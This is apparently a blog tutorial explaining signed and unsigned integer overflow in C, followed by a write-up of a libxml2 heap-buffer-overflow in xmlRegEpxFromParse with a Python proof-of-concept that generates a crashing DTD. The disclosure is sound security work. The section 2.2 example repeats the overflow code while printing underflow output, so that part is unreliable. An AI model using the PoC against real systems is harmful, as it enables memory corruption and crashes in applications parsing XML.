

Exploring Integer Overflow: libxml2 Integer Overflow, which leads to OOB
Exploring Integer Overflow: libxml2 Integer Overflow OOB
In everyday life, numbers feel endless. You can always count one higher, or subtract one more. But computers don’t work like that. Inside your machine, numbers are stored in fixed-sized containers and when you push them past their limits, strange things happen. When a calculation produces a value that’s too large or too small for its container, we get integer overflow or integer underflow.
This is where integer overflow and integer underflow come in.
These issues aren’t just curiosities they can cause logic errors, crashes, and even security vulnerabilities. Let’s break it down step by step.
0. Unsigned and Signed Integers

There are two main types of integers in programming: signed and unsigned.
- A signed integer can represent both positive and negative whole numbers (including zero). On most systems, a 32-bit signed integer ranges from
−2,147,483,648to+2,147,483,647. - An unsigned integer can only represent non-negative whole numbers (zero and positive values). A 32-bit unsigned integer ranges from 0 to 4,294,967,295.
As you see in table signed integers border is 0x7fffffff - 0x80000000 which changes from positive (2,147,483,647) to negative(-**2,147,483,648**) decimal, then goes in ascending order till the -1
1. Signed Integers
A signed integer can represent both positive and negative numbers. On most systems, a 32-bit signed integer (int) has the following range: -2,147,483,648 to 2,147,483,647
1.1 Signed Integer Overflow
Overflow happens when you exceed the maximum positive value.
#include <stdio.h>
#include <limits.h>
int main() {
int x = INT_MAX; // 2,147,483,647
printf("x = %d in Hex: 0x%x\n", x, x);
x = x + 1; // overflow
printf("x after overflow = %d in Hex: 0x%x\n", x, x);
return 0;
}
Output:
x = 2147483647 in Hex: 0x7fffffff
x after overflow = -2147483648 in Hex: 0x80000000
The number wrapped around from the maximum to the minimum value.
1.2 Signed Integer Underflow
Underflow happens when you go below the minimum negative value.
#include <stdio.h>
#include <limits.h>
int main() {
int y = INT_MIN; // -2,147,483,648
printf("y = %d in Hex: 0x%x\n", y, y);
y = y - 1; // underflow
printf("y after underflow = %d in Hex: %x\n", y, y);
return 0;
}
Output:
y = -2147483648 in Hex: 0x80000000
y after underflow = 2147483647 in Hex: 0x7fffffff
2. Unsigned Integers
An unsigned integer can only represent positive numbers. A 32-bit unsigned integer (unsigned int) has this range: 0 to 4,294,967,295
2.1 Unsigned Integer Overflow
When you exceed the maximum value, it wraps around to zero.
#include <stdio.h>
#include <limits.h>
int main() {
unsigned int u = UINT_MAX; // 4,294,967,295
printf("u = %u in Hex: 0x%x\n", u, u);
u = u + 1; // overflow
printf("u after overflow = %u in Hex: 0x%x\n", u, u);
return 0;
}
Output:
u = 4294967295 in Hex: 0xffffffff
u after overflow = 0 in Hex: 0x0
2.2 Unsigned Integer Underflow
When you subtract from zero, it wraps around to the maximum value.
#include <stdio.h>
#include <limits.h>
int main() {
unsigned int u = UINT_MAX; // 4,294,967,295
printf("u = %u in Hex: 0x%x\n", u, u);
u = u + 1; // overflow
printf("u after overflow = %u in Hex: 0x%x\n", u, u);
return 0;
}
Output:
v = 0 in Hex: 0x0
v after underflow = 4294967295 in Hex: 0xffffffff
libxml2: Integer overflow leading to heap-buffer-overflow in xmlRegEpxFromParse
A heap buffer overflow exists in the xmlRegEpxFromParse function within xmlregexp.c. The flaw arises from an integer overflow that occurs when calculating an index in the transitions table during the compilation of a regular expression used for DTD validation.
static xmlRegexpPtr xmlRegEpxFromParse(xmlRegParserCtxtPtr ctxt) {
[...]
int i, j, nbstates = 0, nbatoms = 0;
int *stateRemap;
int *stringRemap;
int *transitions;
void **transdata;
[...]
transitions = (int *) xmlRegCalloc2(nbstates + 1, nbatoms + 1, sizeof(int)); // [1]
[...]
for (i = 0;i < ret->nbStates; i++) {
int stateno, atomno, targetno, prev;
xmlRegStatePtr state;
xmlRegTransPtr trans;
stateno = stateRemap[i];
if (stateno == -1)
continue;
state = ret->states[i];
transitions[stateno * (nbatoms + 1)] = state->type;
for (j = 0;j < state->nbTrans;j++) {
[...]
prev = transitions[stateno * (nbatoms + 1) + atomno + 1]; // [2]
if (prev != 0) {
[...]
} else {
transitions[stateno * (nbatoms + 1) + atomno + 1] = btargetno + 1; // Integer Overflow if (transdata != NULL)
transdata[stateno * nbatoms + atomno] = trans->atom->data;
}
}
When libxml2 processes a document with a DTD that defines a content model, it constructs an automaton, which is then compiled into a regular expression by xmlRegEpxFromParse. To represent this automaton, the function allocates a transitions [1] array that stores the state transition table. It then iterates over the automaton’s states and transitions, filling in the array. The index into this array is computed as: stateno * (nbatoms + 1) + atomno + 1
Here, stateno, nbatoms, and atomno are signed 32-bit integers. For very large automata, these values can grow large enough that the resulting calculation exceeds the 32-bit integer range, causing an overflow. This overflow wraps the result into a negative value, which is then incorrectly used as an index. As a result, the code attempts to read from the transitions buffer at [2] of xmlregexp.c, and later performs writes at line [3] using the same invalid index, leading to memory corruption.
Raw PoC data:
<!DOCTYPE root [
<!ELEMENT root (a0,a1,a2,a3,a4,a5,a6,a7,a8,a9,a10, ..., a46339,a46340)
<!ELEMENT a0 EMPTY>
<!ELEMENT a1 EMPTY>
<!ELEMENT a2 EMPTY>
...
<!ELEMENT a46339 EMPTY>
<!ELEMENT a46340 EMPTY>
]>
<root/>
-
nbatomsThis is the number of unique element names that appear in the content model.
In our case:
a1,a2,a3,a4…nbatoms = 46341 -
statenoThis is the remapped index of the current state in the automaton.
For example:
State 0 = "start (expecting a1)" State 1 = "after a1 (expecting a2)" State 2 = "after a2 (expecting a3)" State 3 = "after a3 (expecting a4)" State 4 = "final (after a4)" [...]So you’ll have ~5 states total, each with its own
stateno. -
atomnoThis is the index of the atom (element name) being processed in the current state’s transitions.
Example mapping:
atomno 0 → a1 atomno 1 → a2 atomno 2 → a3 atomno 3 → a4 [...]
Although the memory allocation function xmlRegCalloc2 [1] does include integer overflow checks, these only apply to its internal size calculations, which use size_t (64-bit on modern systems). The problem persists because the indexing arithmetic in xmlRegEpxFromParse relies on 32-bit signed integers. This means that even though xmlRegCalloc2 can successfully allocate more than 2GB of memory on a 64-bit system, the 32-bit index arithmetic still overflows, resulting in out-of-bounds reads and writes to the heap buffer.
PoC:
NUM_ELEMENTS = 46341
element_names = [f"a{i}" for i in range(NUM_ELEMENTS)]
content_model = ",".join(element_names)
element_decls = "\n".join(f"<!ELEMENT {name} EMPTY>" for name in element_names)
xml_content = f'''
<!DOCTYPE root [
<!ELEMENT root ({content_model})>
{element_decls}
]>
<root/>
'''
print(xml_content)
46341 * (46341+1) + 1 = 0x8000c71f overflow occured
